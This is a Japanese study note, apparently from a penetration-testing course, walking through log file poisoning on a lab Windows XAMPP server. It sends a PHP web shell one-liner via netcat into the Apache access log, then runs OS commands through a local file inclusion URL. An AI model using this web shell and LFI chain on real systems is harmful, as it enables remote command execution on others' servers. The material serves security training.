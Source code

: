 # 説　明
```
サーバにコードを挿入 する方法の一つに、ログファイルポイズニングがあります。ほとんどのアプリケー ションサーバは、リクエストされた全ての URL を記録します。   
これを利用して、 PHP コードを含むリクエストを送信することができます。リクエストがログに記録され たら 、そのログファイルを LFI ペイロードで使用することができます。   
　まず、ペイロード全体がPHP で書かれていることに注目して下さい。   
 <?php で始まり、?>で終わります。 PHP ペイロードの大部分は、ページに出力するための単純な echo コマンドです。  
 この出力は、まず pre HTML タグでラップされ、関数呼び出しの結果の改行やフォーマットが保持されます。   
 次に、関数呼び出しそのものである shell_exec は、 OS コマンドを実行します。   
 最後に、 GET リクエストの「 cmd 」パラメータから OS のコマンドを_GET['cmd'] で取得します。   
 この 1 行の PHP で、 OS のコマンドをクエリストリングで指定し、その結果をブラウザに出力することができます。 
 ```
```
kali@kali:~$ nc -nv 10.11.0.22 80  
(UNKNOWN) [10.11.0.22] 80 (http) open    
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>    
HTTP/1.1 400 Bad Request
```
「Bad Request 」 エラー (有効な HTTP リクエストを行っていないため) が発生しましたが、 Windows 10 ラボマシンの Apache ログファイルを確認することで、リクエストが送信されたことを確認できます。   
ログは、C:xampp¥apachelogs¥access.logを開くか、 XAMPP コントロールパネル を使って見ることができます。
```
10.11.0.4 - - [30/Nov/2019:13:55:12 -0500]
"GET /css/bootstrap.min.css HTTP/1.1" 200 155758
"http://10.11.0.22/menu.php?file=¥¥Windows¥¥System32¥¥drivers¥¥etc¥¥hosts"
"Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:13:58:07 -0500] "GET /tacotruck.php HTTP/1.1" 200 1189
"http://10.11.0.22/menu.php?file=/" "Mozilla/5.0 (X11; Linux x86_64; rv:60.0)
Gecko/20100101 Firefox/60.0"
10.11.0.4 - - [30/Nov/2019:14:01:41 -0500] ""<?php echo '<pre>' .
shell_exec($_GET['cmd']) . '</pre>';?>¥n" 400 981 "-" "-"
```
ペイロードが記録されたので、LFIの思考を試みる
## LFIコード実行
```
http://10.11.0.22/menu.php?file=c:¥xampp¥apache¥logs¥access.log&cmd=ipconfig
```
![69d199a1d0efee785b40f7fad00d487d.png](../_resources/69d199a1d0efee785b40f7fad00d487d.png)

PHPエンジンは、ログファイルのテキスト ペイロード の <?php echoshell_exec($_GET['cmd']);?> 部分を cmd 変数の値「 ipconfig 」で実行、 つまり ターゲット上で ipconfig を実行し、その出力を表示します。ログファイルの 他の 行 に は有効な PHP コードが含まれていないため、単に表示さ れてい ま す。


※参照　9.4.4.3　ログファイル汚染